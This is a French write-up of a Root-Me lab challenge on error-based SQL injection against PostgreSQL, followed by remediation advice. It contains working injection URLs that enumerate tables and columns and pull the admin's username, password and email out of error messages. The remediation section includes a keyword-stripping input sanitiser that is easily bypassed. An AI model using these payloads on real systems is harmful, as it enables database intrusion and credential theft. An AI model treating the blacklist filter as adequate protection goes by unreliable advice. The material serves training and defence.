


# Root-Me – Challenge 7 : SQL Injection - Error Based

## 1. Nom du challenge & URL

**Nom** : Challenge 7 – SQL Injection - Error Based

**URL** : [Root-Me Challenge 7](https://www.root-me.org/fr/Challenges/Web-Serveur/SQL-injection-Error)

---

## 2. Objectif

Le but du challenge est d'exploiter une **SQL Injection basée sur les erreurs** pour extraire des informations sensibles de la base de données PostgreSQL, notamment les credentials de l'utilisateur administrateur.

**Type d'injection** : Error-Based SQL Injection

---

## 3. Étapes de découverte de la vulnérabilité

### 3.1. Identification de la vulnérabilité

Dès le titre du challenge **"SQL injection - Error"**, on doit s'attendre à une vulnérabilité basée sur l'exploitation du message d'erreur retourné par le serveur lors d'une requête SQL [cf. OWASP : Testing for SQL Injection (OTG-INPVAL-005)].

En explorant la page du challenge, on remarque une URL avec un paramètre `order` :

```
http://challenge01.root-me.org/web-serveur/ch34/?action=contents&order=1
```

On teste rapidement ce paramètre et on obtient une erreur SQL :

```
ERROR: syntax error at or near "1" 
LINE 1: SELECT * FROM contents order by page 1 ^
```

La requête SQL est donc de la forme :
```sql
SELECT * FROM contents order by page [injection]
```

### 3.2. Identification du moteur de base de données

Pour identifier le moteur de BDD utilisé, on injecte une fonction invalide :

```
http://challenge01.root-me.org/web-serveur/ch34/?action=contents&order=,coucou()
```

Résultat :

```
ERROR: function coucou() does not exist 
LINE 1: SELECT * FROM contents order by page ,coucou() ^ 
HINT: No function matches the given name and argument types. You might need to add explicit type casts.
```

Le message d'erreur et la syntaxe confirment qu'il s'agit de **PostgreSQL**.

### 3.3. Test de la technique CAST

On teste l'exploitation via la fonction `CAST` pour forcer une erreur verbeuse :

```
http://challenge01.root-me.org/web-serveur/ch34/?action=contents&order=,cast((chr(95)||current_database()) as numeric)
```

Résultat :

```
ERROR: invalid input syntax for type numeric: "_c_webserveur_34"
```

Parfait ! On peut maintenant extraire des données via les messages d'erreur. Le nom de la base de données est `c_webserveur_34`.

---

## 4. Exploitation de la vulnérabilité

### 4.1. Contrainte : Contourner les guillemets

On se rend compte que l'utilisation des guillemets simples (`'`) et doubles (`"`) pose problème. On va donc passer par de la **concaténation** avec `chr(##)` et `||`.

Pour faciliter la conversion, on peut utiliser Python :

```python
'||'.join([ "chr("+str(ord(a))+")" for a in "string" ])
```

Exemple pour encoder `"public"` :
```python
'||'.join([ "chr("+str(ord(a))+")" for a in "public" ])
# Résultat : chr(112)||chr(117)||chr(98)||chr(108)||chr(105)||chr(99)
```

### 4.2. Énumération des tables

Pour lister les tables de la base de données, on utilise `information_schema.tables` avec `LIMIT/OFFSET` pour itérer :

```
http://challenge01.root-me.org/web-serveur/ch34/?action=contents&order=,cast((SELECT table_name FROM information_schema.tables WHERE table_catalog=current_database() LIMIT 1 OFFSET 1) as numeric)
```

Résultat :

```
ERROR: invalid input syntax for type numeric: "m3mbr35t4bl3"
```

**Alternative** : Lister les tables du schéma `public` (par défaut sur PostgreSQL) :

```
http://challenge01.root-me.org/web-serveur/ch34/?action=contents&order=,(cast((SELECT table_name FROM information_schema.tables WHERE table_schema=chr(112)||chr(117)||chr(98)||chr(108)||chr(105)||chr(99) LIMIT 1 OFFSET 0) as int))
```

On découvre la table : **`m3mbr35t4bl3`**

### 4.3. Énumération des colonnes

Pour extraire les colonnes de la table `m3mbr35t4bl3`, on encode le nom de la table avec `chr()` :

```python
# Encodage de "m3mbr35t4bl3"
'||'.join([ "chr("+str(ord(a))+")" for a in "m3mbr35t4bl3" ])
# chr(109)||chr(51)||chr(109)||chr(98)||chr(114)||chr(51)||chr(53)||chr(116)||chr(52)||chr(98)||chr(108)||chr(51)
```

Requête pour obtenir les colonnes (en incrémentant `OFFSET`) :

```
http://challenge01.root-me.org/web-serveur/ch34/?action=contents&order=,(cast((SELECT column_name FROM information_schema.columns WHERE table_name=chr(109)||chr(51)||chr(109)||chr(98)||chr(114)||chr(51)||chr(53)||chr(116)||chr(52)||chr(98)||chr(108)||chr(51) LIMIT 1 OFFSET 0) as int))
```

**Colonnes découvertes** :
* `id` (OFFSET 0)
* `us3rn4m3_c0l` (OFFSET 1)
* `p455w0rd_c0l` (OFFSET 2)
* `em41l_c0l` (OFFSET 3)

### 4.4. Extraction des données

Maintenant qu'on connaît la structure, on peut extraire toutes les données en une seule requête avec concaténation :

```
http://challenge01.root-me.org/web-serveur/ch34/?action=contents&order=,(cast((SELECT id||chr(32)||us3rn4m3_c0l||chr(32)||p455w0rd_c0l||chr(32)||em41l_c0l FROM m3mbr35t4bl3 LIMIT 1 OFFSET 0) as int))
```

**Explication** :
* `chr(32)` : Caractère espace pour séparer les colonnes
* `||` : Opérateur de concaténation PostgreSQL
* `CAST(...as int)` : Force une erreur contenant toutes les données

Résultat :

```
ERROR: invalid input syntax for integer: "1 admin 1a2BdKT5DIx3qxQN3UaC admin@localhost"
```

---

## 5. Payload final utilisé

Voici la séquence complète des payloads utilisés pour extraire les informations :

### Étape 1 : Identifier le moteur de BDD

```
http://challenge01.root-me.org/web-serveur/ch34/?action=contents&order=,test()
```

### Étape 2 : Extraire le nom de la base de données

```
http://challenge01.root-me.org/web-serveur/ch34/?action=contents&order=,cast((chr(95)||current_database()) as numeric)
```

### Étape 3 : Énumérer les tables

```
http://challenge01.root-me.org/web-serveur/ch34/?action=contents&order=,cast((SELECT table_name FROM information_schema.tables WHERE table_catalog=current_database() LIMIT 1 OFFSET 1) as numeric)
```

**Alternative** (schéma `public`) :

```
http://challenge01.root-me.org/web-serveur/ch34/?action=contents&order=,(cast((SELECT table_name FROM information_schema.tables WHERE table_schema=chr(112)||chr(117)||chr(98)||chr(108)||chr(105)||chr(99) LIMIT 1 OFFSET 0) as int))
```

### Étape 4 : Énumérer les colonnes de `m3mbr35t4bl3`

```python
'||'.join([ "chr("+str(ord(a))+")" for a in "m3mbr35t4bl3" ])
# chr(109)||chr(51)||chr(109)||chr(98)||chr(114)||chr(51)||chr(53)||chr(116)||chr(52)||chr(98)||chr(108)||chr(51)
```

```
http://challenge01.root-me.org/web-serveur/ch34/?action=contents&order=,(cast((SELECT column_name FROM information_schema.columns WHERE table_name=chr(109)||chr(51)||chr(109)||chr(98)||chr(114)||chr(51)||chr(53)||chr(116)||chr(52)||chr(98)||chr(108)||chr(51) LIMIT 1 OFFSET 0) as int))
```

Résultats (OFFSET 0 à 3) :
* `id`
* `us3rn4m3_c0l`
* `p455w0rd_c0l`
* `em41l_c0l`

### Étape 5 : Extraction des données complètes

```
http://challenge01.root-me.org/web-serveur/ch34/?action=contents&order=,(cast((SELECT id||chr(32)||us3rn4m3_c0l||chr(32)||p455w0rd_c0l||chr(32)||em41l_c0l FROM m3mbr35t4bl3 LIMIT 1 OFFSET 0) as int))
```

**Résultat** :
```
ERROR: invalid input syntax for integer: "1 admin 1a2BdKT5DIx3qxQN3UaC admin@localhost"
```

### Explication technique des payloads :

* **`CAST(...AS numeric/int)`** : Force PostgreSQL à convertir une chaîne en nombre, ce qui génère une erreur contenant la valeur
* **`chr(##)`** : Génère un caractère ASCII (ex: `chr(32)` = espace, `chr(95)` = underscore)
* **`||`** : Opérateur de concaténation de chaînes en PostgreSQL
* **`information_schema.tables`** : Vue système contenant les métadonnées des tables
* **`information_schema.columns`** : Vue système contenant les métadonnées des colonnes
* **`current_database()`** : Fonction retournant le nom de la base de données courante
* **`LIMIT 1 OFFSET k`** : Permet d'itérer sur les résultats en incrémentant `k`

---

## 6. Résultat obtenu

Après l'extraction complète via le dernier payload, on obtient les credentials suivants :

```
"1 admin 1a2BdKT5DIx3qxQN3UaC admin@localhost"
```

**Données extraites** :
* **ID** : `1`
* **Username** : `admin`
* **Password** : `1a2BdKT5DIx3qxQN3UaC`
* **Email** : `admin@localhost`

**Le password est le flag** : `1a2BdKT5DIx3qxQN3UaC`

Le challenge est validé !



---

## 7. Screenshot

Voici un screenshot prouvant que le challenge est terminé :



---

## 8. Recommandations pour sécuriser la vulnérabilité

Pour corriger cette vulnérabilité de SQL Injection basée sur les erreurs, il faut implémenter les mesures suivantes :

### 8.1. Utiliser des requêtes préparées (Prepared Statements)

Les requêtes préparées avec des paramètres liés empêchent complètement les injections SQL [1] [2] :

**Code vulnérable** :

```python
query = f"SELECT * FROM users WHERE username = '{username}' AND password = '{password}'"
cursor.execute(query)
```

**Code sécurisé** :

```python
query = "SELECT * FROM users WHERE username = %s AND password = %s"
cursor.execute(query, (username, password))
```

### 8.2. Désactiver l'affichage des erreurs en production

Ne jamais afficher les messages d'erreur SQL détaillés aux utilisateurs [2] [3] :

```python
# Configuration Flask
app.config['DEBUG'] = False
app.config['PROPAGATE_EXCEPTIONS'] = False

# Gestion d'erreur personnalisée
@app.errorhandler(Exception)
def handle_error(error):
    # Logger l'erreur pour les développeurs
    app.logger.error(f"Database error: {error}")
    
    # Retourner un message générique à l'utilisateur
    return "Une erreur s'est produite. Veuillez réessayer.", 500
```

### 8.3. Utiliser un ORM (Object-Relational Mapping)

Les ORM comme SQLAlchemy paramètrent automatiquement les requêtes [3] [4] :

```python
from flask_sqlalchemy import SQLAlchemy

db = SQLAlchemy(app)

class User(db.Model):
    id = db.Column(db.Integer, primary_key=True)
    username = db.Column(db.String(80), unique=True, nullable=False)
    password = db.Column(db.String(120), nullable=False)

# Requête sécurisée avec ORM
user = User.query.filter_by(username=username, password=password).first()
```

### 8.4. Valider et filtrer les entrées utilisateur

Implémenter une validation stricte des entrées [1] [2] :

```python
import re

def is_valid_username(username):
    # Autoriser uniquement les caractères alphanumériques et underscore
    return re.match(r'^[a-zA-Z0-9_]{3,20}$', username) is not None

def sanitize_input(user_input):
    # Supprimer les caractères dangereux
    dangerous_chars = ["'", '"', ';', '--', '/*', '*/', 'xp_', 'sp_', 'UNION', 'SELECT', 'DROP']
    
    for char in dangerous_chars:
        user_input = user_input.replace(char, '')
    
    return user_input

# Utilisation
if not is_valid_username(username):
    return "Username invalide", 400
```

### 8.5. Principe du moindre privilège

Limiter les permissions du compte de base de données [4] [5] :

```sql
-- Créer un utilisateur avec permissions limitées
CREATE USER webapp_user WITH PASSWORD 'secure_password';

-- Donner uniquement les permissions nécessaires
GRANT SELECT, INSERT, UPDATE ON users TO webapp_user;

-- Ne pas donner accès aux tables système
REVOKE SELECT ON pg_tables FROM webapp_user;
REVOKE SELECT ON information_schema.tables FROM webapp_user;
```

### 8.6. Hacher les mots de passe

Ne jamais stocker les mots de passe en clair [3] [5] :

```python
from werkzeug.security import generate_password_hash, check_password_hash

# Lors de l'inscription
hashed_password = generate_password_hash(password, method='pbkdf2:sha256', salt_length=16)

# Lors de la connexion
user = User.query.filter_by(username=username).first()
if user and check_password_hash(user.password_hash, password):
    # Authentification réussie
    login_user(user)
```

### 8.7. Implémenter une protection contre les attaques par force brute

Limiter le nombre de tentatives de connexion [2] [5] :

```python
from flask_limiter import Limiter
from flask_limiter.util import get_remote_address

limiter = Limiter(
    app,
    key_func=get_remote_address,
    default_limits=["200 per day", "50 per hour"]
)

@app.route('/login', methods=['POST'])
@limiter.limit("5 per minute")
def login():
    # Code de connexion
    pass
```

### 8.8. Utiliser un WAF (Web Application Firewall)

Déployer un WAF pour détecter et bloquer les tentatives d'injection SQL [4] [5] :

```nginx
# Configuration ModSecurity (exemple)
SecRule ARGS "@detectSQLi" \
    "id:1000,\
    phase:2,\
    block,\
    log,\
    msg:'SQL Injection Attack Detected'"
```

### 8.9. Effectuer des audits de sécurité réguliers

Utiliser des outils d'analyse de vulnérabilités [1] [2] :

```bash
# SQLMap - Test automatisé d'injection SQL
sqlmap -u "http://example.com/login" --data="username=admin&password=test" --batch

# OWASP ZAP - Scanner de sécurité web
zap-cli quick-scan -s all http://example.com
```

---

## 9. Références

[1] [OWASP – SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection) - Guide complet sur les injections SQL et leur prévention

[2] [OWASP – SQL Injection Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html) - Bonnes pratiques pour prévenir les injections SQL

[3] [PostgreSQL Documentation - pg_tables](https://www.postgresql.org/docs/current/view-pg-tables.html) - Documentation sur la vue système pg_tables

[4] [CAST Function in PostgreSQL](https://www.postgresql.org/docs/current/sql-expressions.html#SQL-SYNTAX-TYPE-CASTS) - Documentation sur la fonction CAST utilisée dans cette exploitation